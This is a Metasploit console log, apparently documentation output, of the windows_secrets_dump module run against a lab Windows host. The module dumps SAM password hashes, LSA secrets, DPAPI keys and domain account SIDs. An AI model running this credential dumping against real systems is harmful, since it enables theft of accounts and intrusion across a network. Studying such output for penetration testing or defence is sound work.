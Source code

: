 ```


msf auxiliary(gather/windows_secrets_dump) > run
[*] Running module against 192.168.100.123

[*] 192.168.100.123:445 - Service RemoteRegistry is in stopped state
[*] 192.168.100.123:445 - Starting service...
[*] 192.168.100.123:445 - Retrieving target system bootKey
[+] 192.168.100.123:445 - bootKey: 0x8f52b915365487d0b2005d3e6ae6eb2b
[*] 192.168.100.123:445 - Saving remote SAM database
[*] 192.168.100.123:445 - Dumping SAM hashes
[*] 192.168.100.123:445 - Password hints:
No users with password hints on this system
[*] 192.168.100.123:445 - Password hashes (pwdump format - uid:rid:lmhash:nthash:::):
Administrator:500:aad3b435b51404eeaad3b435b51404ee:958be10a71d239e318078816aa929d08:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:84c140afd4e203cc90a977580e78f768:::
[*] 192.168.100.123:445 - Saving remote SECURITY database
[*] 192.168.100.123:445 - Decrypting LSA Key
[*] 192.168.100.123:445 - Dumping LSA Secrets
$MACHINE.ACC
MYLAB\WIN-340ED5H7S8$:plain_password_hex:b4ac4211cc8ec3f63cf005590bb06aad9c7bd5576ae57b21843d8973b5c208e0ad39b1c7f574d50be9c36fcd379315fccfae3d334364f19df40929b75d7592bf5df715318e2796e68fa59259017ee80b06bc1ac140fb14402c032273101488ab8a0868e90b9ec4e94b73e2b51a6bf9de518474e0cef7f1c7f8f38a575a2bb253dd97ffc0373b6c591cc66acf78ac77da42282291f77b8f4aef0ef9c5e293351caee2dec7c282106603b9d6e2618110394abc1182ae66b3777b738742c087e671e659e547bc45d7fc887407cf89517a4d51bff56f9a31c270037df1a7b80eba0926825a58ae0ee9878ab355cd4062d0b9
MYLAB\WIN-340ED5H7S8$:aes256-cts-hmac-sha1-96:90f28a5df2b417c96ca2fa18676f3735c4a697b94005378664169f96778400bb
MYLAB\WIN-340ED5H7S8$:aes128-cts-hmac-sha1-96:5895d4b7a9400f1d6565c1989320a1c6
MYLAB\WIN-340ED5H7S8$:des-cbc-md5:638a17d7c3480c12
MYLAB\WIN-340ED5H7S8$:aad3b435b51404eeaad3b435b51404ee:2abda1b5b936ed310fa624d6afbc4c52:::

DefaultPassword
(Unknown User): FOO$000

DPAPI_SYSTEM
dpapi_machinekey: 0xec969866a5bf6bd74f50c790536e58f8cd45da24
dpapi_userkey: 0xc67ad895123894e9d5d5efd0cf84c00b618cc48e

NL$KM
75 31 51 ae 2c 00 3c aa ff 73 db 34 46 c2 93 06    |u1Q.,.<..s.4F...|
81 85 02 41 02 ad 1b bd 2f 18 e3 4c b4 a7 c4 8a    |...A..../..L....|
3c 0f d4 29 74 91 a3 08 60 e4 41 1b 84 e8 0e 68    |<..)t...`.A....h|
67 7a 69 31 b0 e5 1e f9 e1 a6 f5 53 95 12 c3 47    |gzi1.......S...G|
Hex string: 2a2b513771a2bebc7395ee9648dd7a5e771d52bac713c6edd28f32b3f9259516ca19f562d7f633f55a02dd7f6d4471b7f66ae539327c64fd3c49cdbb267417e1

[*] 192.168.100.123:445 - Decrypting NL$KM
[*] 192.168.100.123:445 - Dumping cached hashes
No cached hashes on this system
[*] 192.168.100.123:445 - Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] 192.168.100.123:445 - Using the DRSUAPI method to get NTDS.DIT secrets
# SID's:
MYLAB\Administrator: S-1-5-21-413541012-3457123-5043211362-500
MYLAB\Guest: S-1-5-21-413541012-3457123-5043211362-501
MYLAB\krbtgt: S-1-5-21-413541012-3457123-5043211362-502
MYLAB\msfuser: S-1-5-21-413541012-3457123-5043211362-1105
MYLAB\test: S-1-5-21-413541012-3457123-5043211362-1110
MYLAB\WIN-340ED5H7S8$: S-1-5-21-413541012-3457123-5043211362-1001
MYLAB\DESKTOP-EQR2M7J$: S-1-5-21-413541012-3457123-5043211362-1104
MYLAB\WIN-K1F52W6Q3T1$: S-1-5-21-413541012-3457123-5043211362-1107
MYLAB\WIN-51S22F6Q7TW$: S-1-5-21-413541012-3457123-5043211362-1109
MYLAB\WIN2003X86$: S-1-5-21-413541012-3457123-5043211362-1602
```